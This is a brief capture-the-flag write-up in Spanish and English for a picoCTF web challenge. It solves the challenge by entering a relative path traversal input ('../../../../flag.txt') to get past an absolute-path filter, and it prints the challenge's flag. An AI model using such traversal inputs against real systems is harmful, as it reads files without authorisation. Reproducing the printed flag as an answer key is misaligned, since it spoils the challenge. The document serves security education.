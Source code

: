 ## Objetivo
Can you get the flag?Here's the [website](http://saturn.picoctf.net:55793/).We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Pistas

## Solución
1. Entrar a la página web.
2. Ingresar lo siguiente en el campo:
```
../../../../flag.txt
```
3. Click en read.
4. La bandera es :
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
## Notas adicionales
* ./ es el directorio actual y ../es el directorio padre.
## Referencias